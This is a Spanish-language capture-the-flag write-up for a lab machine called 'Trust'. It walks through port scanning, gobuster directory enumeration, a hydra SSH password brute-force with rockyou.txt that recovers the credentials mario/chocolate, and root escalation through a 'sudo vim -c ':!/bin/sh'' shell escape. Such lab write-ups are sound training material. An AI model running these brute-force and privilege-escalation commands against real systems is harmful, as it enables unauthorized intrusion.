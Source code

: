 # WriteUp Maquina Trust

Primero haremos un Ping a la IP para verificar que haya conexion

Escaneo de Puertos
<br>
Iniciamos con un escaneo básico de puertos y encontramos los siguientes servicios abiertos:
<br>
![image](https://github.com/user-attachments/assets/3f91c7d4-234b-4e49-a9d8-9fcaf6f60ebf)
<br>
Enumeración de Directorios
<br>
Utilizamos gobuster para enumerar directorios en el puerto 80:
<br>
gobuster dir -u http://172.18.0.2/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x html,php,txt,php.bak
<br>
![image](https://github.com/user-attachments/assets/2361a103-d894-4f12-b8cf-09f2ff44cc11)
<br>
Resultado
<br>
Encontramos un archivo interesante:
<br>
/secret.php
<br>
Accedemos a " http://172.18.0.2/secret.php ", pero solo encontramos un mensaje que dice "HOLA MARIO". Sin más información útil, decidimos explorar otras opciones.
<br>
![image](https://github.com/user-attachments/assets/2f3034b3-d3b6-4340-9b76-267ee5e5a933)
<br>
Fuerza Bruta en SSH
<br>
Dado que encontramos un usuario potencial ("mario") en /secret.php, procedemos a un ataque de fuerza bruta en el puerto 22 (SSH) para descubrir la contraseña:
<br>
hydra  -l mario -P /home/kali/Downloads/rockyou.txt ssh://172.18.0.2
<br>
Credenciales encontradas:
<br>
Usuario: mario
<br>
Contraseña: chocolate
<br>
Acceso al Sistema
<br>
Usamos las credenciales obtenidas para iniciar sesión por SSH:
<br>
ssh mario@172.18.0.2
<br>
Escalada de Privilegios
<br>
Al verificar los privilegios de sudo con sudo -l, observamos lo siguiente:
<br>
![image](https://github.com/user-attachments/assets/dacc3017-5890-4356-ab6a-bc0bed7de500)
<br>
Esto indica que podemos usar vim como root. Para explotar este permiso, consultamos GTFOBins.
<br>
Comando para obtener acceso root:
<br>
sudo vim -c ':!/bin/sh'
<br>
Al ejecutar este comando, logramos escalar privilegios y obtener acceso root.
<br>
![image](https://github.com/user-attachments/assets/299a427e-5260-4673-9734-7f0c61668cef)
<br>
<br>
¡Y eso es todo, ya somos root!






